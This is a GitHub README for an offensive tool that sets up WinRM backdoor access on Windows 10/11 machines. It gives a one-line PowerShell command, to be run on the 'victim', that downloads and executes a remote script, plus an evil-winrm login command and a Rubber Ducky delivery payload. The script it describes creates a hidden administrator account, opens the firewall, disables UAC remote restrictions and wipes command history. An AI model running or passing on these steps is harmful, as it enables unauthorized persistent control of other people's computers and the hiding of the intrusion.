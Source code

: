 # Win-RM Reverse Shell

## Introduction
This repository provides a PowerShell script to establish a reverse shell connection via Windows Remote Management (WinRM) on Windows 10/11. Additionally it includes a Rubber Ducky payload for alternative deployment.

## Dependencies
- Both attacker and victim must be on the same network for the connection to be established successfully.
- Ensure you have administrative access to the target machine.

## Usage
1. Edit `WinRM.ps1`:
   - Set your desired username and password by modifying the variables `$Username` and `$Password`.
2. Run the following PowerShell one-liner on the victim machine with administrative privileges:
   ```powershell
   IEX (IWR "https://raw.githubusercontent.com/VBV11/WinRM-Reverse-Shell/main/WinRM.ps1")

## Use Evil-WinRM to connect to the victim machine:
evil-winrm -i YOUR.IP.ADDRESS -u Admin -p Password1

# ![Screenshot_2024-02-25_13-40-13 (1)](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/446782ec-8fcf-46ac-adf1-10f54711bf73)


## Rubber Ducky Payload
The repository includes a Rubber Ducky payload for alternative deployment.
Edit the payload speed and URL as needed.

https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/fa37438d-69cc-4969-8866-dc02a3437dec

## Additional Information
The created user account can be viewed in User Accounts.
To view the account, type netplwiz in the Run box.

+ Account information may also be visible on the login screen.

![image](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/8ee30db3-aee3-4720-9d75-228fd26a6aec)


![image](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/2d0a0ada-3810-4cc3-9e8a-338c4ef3079d)

## Script Breakdown
### The PowerShell script is divided into several parts:

#### Function to hide a window.
#### Creation of a new local user account.
#### Addition of the new user to the local Administrators group.
#### Enabling of Windows Remote Management (WinRM).
#### Adding a firewall rule to allow WinRM traffic.
#### Disabling UAC remote restrictions.
#### Deletion of run box history and PowerShell history.

## Credits
### Inspired by TW-D.

